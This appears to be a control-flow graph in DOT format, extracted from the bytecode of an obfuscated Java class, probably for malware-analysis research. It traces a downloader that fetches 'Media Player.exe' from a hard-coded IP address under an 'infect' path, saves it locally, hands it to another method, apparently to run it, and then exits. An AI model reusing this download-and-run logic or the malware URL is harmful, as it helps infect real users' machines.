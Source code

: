 digraph "" {
    "r0 := @this: udbhoadc0qy"
    "new java.io.FileOutputStream"
    "r0 := @this: udbhoadc0qy"->"new java.io.FileOutputStream";
    "store.r $r212"
    "new java.io.FileOutputStream"->"store.r $r212";
    "load.r $r212"
    "store.r $r212"->"load.r $r212";
    "staticinvoke <udbhoadc0qy: java.lang.String MpSMGesk()>"
    "load.r $r212"->"staticinvoke <udbhoadc0qy: java.lang.String MpSMGesk()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "staticinvoke <udbhoadc0qy: java.lang.String MpSMGesk()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "push \"http://83.170.102.190/~areasexy/infect/Media%20Player.exe\""
    "dup1.r"->"push \"http://83.170.102.190/~areasexy/infect/Media%20Player.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://83.170.102.190/~areasexy/infect/Media%20Player.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r205"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r205";
    "push 1024"
    "store.r r205"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r207"
    "newarray"->"store.r r207";
    "load.r r205"
    "store.r r207"->"load.r r205";
    "load.r r207"
    "load.r r205"->"load.r r207";
    "push 0"
    "load.r r207"->"push 0";
    "push 0"->"load.r r207";
    "arraylength"
    "load.r r207"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r205"
    "push -1"->"ifcmpeq.i load.r r205";
    "ifcmpeq.i load.r r205"->"load.r $r212";
    "load.r $r212"->"load.r r207";
    "load.r r207"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r205"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r205";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "return"
    "staticinvoke <java.lang.System: void exit(int)>"->"return";
    "ifcmpeq.i load.r r205"->"load.r r205";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r205"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r212";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r212"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r0"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r0";
    "load.r r0"->"staticinvoke <udbhoadc0qy: java.lang.String MpSMGesk()>";
    "virtualinvoke <udbhoadc0qy: void LPjAtTrh(java.lang.String)>"
    "staticinvoke <udbhoadc0qy: java.lang.String MpSMGesk()>"->"virtualinvoke <udbhoadc0qy: void LPjAtTrh(java.lang.String)>";
    "virtualinvoke <udbhoadc0qy: void LPjAtTrh(java.lang.String)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto return";
}
